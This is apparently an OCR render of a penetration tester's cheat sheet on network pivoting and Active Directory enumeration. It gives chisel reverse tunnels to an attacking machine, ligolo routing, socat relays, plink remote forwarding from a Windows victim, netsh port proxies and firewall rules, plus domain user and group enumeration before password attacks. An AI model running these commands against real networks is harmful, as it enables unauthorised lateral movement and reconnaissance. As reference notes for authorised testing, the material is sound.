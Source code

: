 ```bash
# in case if the route is already present to your machine then use host specfic subnet liek 192.168.10.12/32

# to route to locally running port on your agent machine
sudo ip route add 240.0.0.1/32 dev ligolo 
# where 240.0.0.1 is your agent local ip
```
### Chisel
```shell
# REVERSE/Remote Port Forward
# attacking machine
chisel server -p 11701 --reverse & # we can listen on any port, but i create 11701 for the standard

# jump box
./chisel client ATTACKING_IP:11701 R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

./chisel.exe client 192.168.45.155:11701 R:9980:127.0.0.1:80 &
```
### More
```shell
# [[Pivoting#SSH Port-forwarding Tunneling]] can check out this too
ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N

# Port Forwarding Using Socat
# Linux victim Machine
socat -ddd TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389 

# plink for ssh remote port forwarding if our attacking machine hosting ssh server and we wanna access internal victim rdp port
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
# we can't respond back to promppts on non-TTY windows shell just like linux then we can automate the process of sending yes through echo

# native to windows but requires high privs
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
# if we have high privs the obviously we can also open some ports in firewall
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
# delete this rule and portfwd after engagement
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

## 🗃<font color="#d99694">Active Directory</font>

[PayloadAllTheThings AD Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
### 🔍Enumeration
```powershell
net user /domain
net user username /domain
net group /domain
net group <groupname> /domain
net accounts # before doing pass attack to check account lockout policies
Get-NetUser | select name,badpwdcount,badpasswordtime # for check bad pass attempt


# Powershell AD enumeration cmdlets comes with RSAT that's rarely present on client in a domain.
# we can use alternative commands to directly communicate through LDAP to query AD objects
```
